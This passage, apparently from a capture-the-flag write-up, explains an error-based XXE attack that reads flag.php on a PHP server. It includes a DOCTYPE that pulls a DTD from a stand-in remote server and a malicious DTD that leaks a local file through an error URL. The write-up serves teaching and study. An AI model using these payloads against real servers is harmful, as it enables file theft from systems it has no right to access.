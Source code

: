 This is good news, because it means the XML message still gets parsed and the
server returns an explicit error upon failure.

We can utilize this functionality to include an entity from a nonexistent file
while appending the contents of an arbitrary file to the included url.

This way, when we get an error, the url will reflect the contents of the file
we included.

However, external entities can only be included from, well, *external* DTD
files, so, since it is unlikely there is some malicious DTD file lying around
on the server, we will need to upload our own DTD payload to a public URL and
require it the following way:

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://our.remote.server/xxe.dtd">
    %remote;
]>
```

Now, in our malicious `xxe.dtd`, we can finally put the XML to include the
contents of a nonexistent URL followed by the contents of `flag.php`.

In fact, since `file://` inclusion is not forbidden inside of DTD files, we will
not even need to encode the target file with PHP filters this time around:

```xml
<!ENTITY % data SYSTEM "file:///var/www/html/flag.php">
<!ENTITY % xxe "<!ENTITY &#37; xxe-url SYSTEM 'file:///i-dont-exist/%data;'>">
%xxe;
%xxe-url;
```

And this request finally yields the contents of `flag.php`:

<img alt="xxe" src="img/xxe/5.png">
